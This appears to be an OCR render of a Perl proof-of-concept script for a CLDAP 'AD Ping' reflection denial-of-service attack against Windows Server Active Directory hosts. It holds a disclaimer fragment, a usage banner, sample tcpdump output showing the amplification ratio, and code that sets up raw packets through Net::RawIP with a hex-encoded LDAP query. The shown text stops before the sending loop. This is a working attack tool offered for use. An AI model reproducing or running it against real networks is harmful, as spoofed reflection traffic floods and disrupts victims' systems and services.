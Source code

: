 ```perl
#  responsibility for content or misuse of these programs or any
#  derivatives thereof. By using these programs you accept the fact
#  that any damage (dataloss, system crash, system compromise, etc.)
#  caused by the use of these programs is not Todor Donev's
#  responsibility.
#
#  Use at your own risk and educational
#  purpose ONLY!
#
#  See also, UDP-based Amplification Attacks:
#  https://www.us-cert.gov/ncas/alerts/TA14-017A
#
#
#  # perl cldapdrdos.pl 192.168.1.112 192.168.1.146
#  [ MS Windows Server 2008/2008 R2/ 2012/2012 R2/ AD LDAP RootDSE Netlogon (CLDAP "AD Ping") query reflection DoS PoC
#  [ ======
#  [ Usg: cldapdrdos.pl <ldap server> <target> <port>
#  [ Default port: 389
#  [ Example: perl cldapdrdos.pl 192.168.30.56 192.168.1.1
#  [ ======
#  [ <todor.donev@gmail.com> Todor Donev
#  [ Facebook: https://www.facebook.com/ethicalhackerorg
#  [ Website: https://www.ethical-hacker.org/
#  [ Sending CLDAP "AD Ping" packets..
#  ^C
#  # tcpdump -i eth0 -c4 port 389
#  tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
#  listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes
#  00:00:58.638466 IP attacker.31337 > target.ldap: UDP, length 57
#  00:00:58.639360 IP target.ldap > attacker.31337: UDP, length 2315        ## LOOOL...
#  00:00:59.039293 IP attacker.31337 > target.ldap: UDP, length 57
#  00:00:59.041043 IP target.ldap > attacker.31337: UDP, length 2315        ## LOOOL...
#  4 packets captured
#  6 packets received by filter
#  0 packets dropped by kernel
#
#
#

use Net::RawIP;

print "[ MS Windows Server 2008/2008 R2/ 2012/2012 R2/ AD LDAP RootDSE Netlogon (CLDAP \"AD Ping\") query reflection DoS PoC\n";
print "[ ======\n";
print "[ Usg: $0 <ldap server> <target> <port>\n";
print "[ Default port: 389\n";
print "[ Example: perl $0 192.168.30.56 192.168.1.1\n";
print "[ ======\n";
print "[ <todor.donev\@gmail.com> Todor Donev\n";
print "[ Facebook: https://www.facebook.com/ethicalhackerorg\n";
print "[ Website: https://www.ethical-hacker.org/\n";

my $cldap       = $ARGV[0];
my $target      = $ARGV[1];
my $port        = $ARGV[2] || '389';

die "[ Error: Port must be between 1 and 65535!\n"       if ($port < 1 || $port > 65535);

my $query  = "\x30\x25\x02\x01\x01\x63\x20\x04\x00\x0a";
$query    .= "\x01\x00\x0a\x01\x00\x02\x01\x00\x02\x01";
$query    .= "\x00\x01\x01\x00\x87\x0b\x6f\x62\x6a\x65";
$query    .= "\x63\x74\x63\x6c\x61\x73\x73\x30\x00\x00";
```